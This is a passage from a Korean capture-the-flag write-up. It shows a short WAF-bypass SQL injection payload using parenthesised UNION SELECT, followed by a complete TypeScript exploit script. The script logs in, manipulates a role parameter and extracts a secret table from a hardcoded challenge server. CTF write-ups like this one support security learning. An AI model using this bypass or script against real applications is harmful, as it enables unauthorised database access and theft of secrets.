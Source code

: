 ```kotlin {2-10}
            e.printStackTrace()
        }
        return "fail"
    }
```

이제 여기서 위 코드의 `WAF`를 우회해야 하는데 간단히 우회할 수 있다. `UNION(SELECT(sdata)FROM(SITE_SECRET))`를 사용하면 된다!

최종적인 익스 코드는 아래와 같다.

```typescript
import axios from 'axios'
import { stringify, parse } from 'qs'

const instance = axios.create({
  baseURL: 'http://13.125.48.233:8780',
})

const csrfTokenRes = await instance.get('/user/login')
const csrfToken = csrfTokenRes.data.match(/value="(.+)"/)[1]
let TOKEN = csrfTokenRes.headers['set-cookie']?.[0].split(';')[0]
const loginRes = await instance.post(
  '/user/login?ShieldParam=%7B%22userasdf_role%22%3Anull%7D',
  stringify({
    username: 'asdfasdfasdf12',
    password: 'asdfasdfasdf12',
    _csrf: csrfToken,
  }),
  {
    maxRedirects: 0,
    headers: {
      cookie: TOKEN,
      'Content-Type': 'application/x-www-form-urlencoded',
    },
    validateStatus: (status) => status === 302,
  },
)

TOKEN = loginRes.headers['set-cookie']?.[0].split(';')[0]

await instance.get('/api/v6/shieldosint/query', {
  params: { q: 'Y' },
  headers: { cookie: TOKEN },
})

const sql = `UNION(SELECT(sdata)FROM(SITE_SECRET))`
console.info(sql.length)
await instance
  .get('/api/v6/shieldosint/search', {
    params: { s: 'filterQuery', q: `a a ${sql}`, mp: 'string' },
    headers: { cookie: TOKEN },
  })
  .then((v) => console.log(v.data.replace('Query Result: ', '').length))
await instance
  .get('/api/v6/shieldosint/search', {
    params: { s: 'selectQuery', q: `a a ${sql}`, mp: 'string' },
    headers: { cookie: TOKEN },
  })
  .then((v) => console.log(v.data.replace('Query Result: ', '')))
```
